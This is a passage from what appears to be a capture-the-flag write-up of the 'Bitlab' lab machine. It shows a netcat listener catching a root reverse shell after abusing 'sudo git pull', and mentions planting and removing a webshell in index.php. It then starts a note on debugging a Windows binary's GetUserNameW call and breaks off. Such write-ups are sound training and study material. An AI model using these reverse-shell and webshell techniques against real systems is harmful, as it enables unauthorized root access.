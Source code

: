 Now I’ll run `git pull`, but I don’t get a callback on `nc`:

```

www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull
Already up to date.

```

Since there’s no changes, no merge happens. I’ll take this opportunity to remove my webshell from `index.php` using the same steps I used to add it. Once I make that change, I can pull again, and this time:

```

www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull   
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 4 (delta 3), reused 3 (delta 2)
Unpacking objects: 100% (4/4), done.
From ssh://localhost:3022/root/profile
   69f1340..72805f3  master     -> origin/master
Updating 69f1340..72805f3
Fast-forward
 index.php | 1 -
 1 file changed, 1 deletion(-)

```

The www-data window hangs, but in the `nc` window, I’m root:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.114.
Ncat: Connection from 10.10.10.114:52336.
root@bitlab:/dev/shm/.0xdf/profile# id
id
uid=0(root) gid=0(root) groups=0(root)

```

### Debugging Username

When I initially tried to run this program, it just crashed. Some debugging showed me that it was crashing at a call to `GetUserNameW`. I took a guess that my username `0xdf` was throwing things off, created a new user named `dummy,` and switched over, and did the debugging above.

I was failing to get to `ShellExecuteW` at a check comparing something to `clave`, so I figured I would create a user clave, and debugging as him. It still failed to reach the call to Putty.

I debugged the call to `GetUserNameW`. The [docs](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getusernamew) say it takes two parameters:
